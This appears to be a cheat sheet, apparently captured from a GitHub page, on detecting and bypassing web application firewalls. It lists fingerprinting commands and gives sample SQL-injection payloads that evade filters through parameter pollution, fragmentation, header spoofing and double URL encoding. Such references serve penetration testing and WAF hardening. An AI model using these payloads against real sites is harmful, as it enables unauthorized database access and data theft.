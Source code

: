 WAFNINJA, COMODO WAF, MODSECURITY WAF, AQTRONIX WEBKNIGHT WAF, AQTRONIX WEBKNIGHT, AQTRONIX WEBKNIGHT



# nmap --script=http-waf-fingerprint,http-waf-detect -p443 example.com

# wafw00f example.com   

# whatwaf -u https://x.com




WAF Bypass contains many different workarounds, such as the following:

multiple URLEncode;

Base64Encode;

HTML Entity Encode;

UTF-8/16 Encode;

UTF-8 Text Collation;

multipart/form-boundary manipulation

using a specific method (HTTP method)

Request collation with different characters (null-byte, escaping etc.)


# BYPASSING PARAMETER VERIFICATION

• PHP removes whitespaces from parameter names or transforms them into underscores
http://www.website.com/products.php?%20productid=select 1,2,3
• ASP removes % character that is not followed by two hexadecimal digits
http://www.website.com/products.aspx?%productid=select 1,2,3
• A WAF which does not reject unknown parameters may be bypassed with this technique.

# X-* Headers
• WAF may be configured to trust certain internal IP Addresses
• Input validation is not applied on requests originating from these IPs
• If WAF retrieves these IPs from headers which can be changed by a user a bypass may occur
• A user is in control of the following HTTP Headers:
 X-Originating-IP

 X-Forwarded-For

 X-Remote-IP

 X-Remote-Addr

HTTP PARAMETER POLLUTION
• Sending a number of parameters with the same name

https://www.website.com/products/?productid=1&productid=2

• Technologies interpret this request differently:

Back end Behavior Processed

ASP.NET Concatenate with comma productid=1,2

JSP First Occurrence productid=1

PHP Last Occurrence productid=2


# The following payload can be divided:
• WAF sees two individual parameters and may not detect the payload
?productid=select 1,2,3 from table
• ASP.NET back end concatenates both values
?productid=select 1&productid=2,3 from table

# HTTP PARAMETER FRAGMENTATION
• Splitting subsequent code between different parameters
• Example query:
sql = "SELECT * FROM table WHERE uid = "+$_GET['uid']+" and pid = +$_GET[‘pid']“
• The following request:
http://www.website.com/index.php?uid=1+union/*&pid=*/select 1,2,3
would result in this SQL Query:
sql = "SELECT * FROM table WHERE uid = 1 union/* and pid = */select 1,2,3"

# DOUBLE URL ENCODING
• WAF normalizes URL encoded characters into ASCII text
• The WAF may be configured to decode characters only once
• Double URL Encoding a payload may result in a bypass
’s’ -> %73 -> %25%37%33
• The following payload contains a double URL encoded character
1 union %25%37%33elect 1,2,3

https://jlajara.gitlab.io/Bypass_WAF_Unicode

https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads

https://gosecure.ai/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/


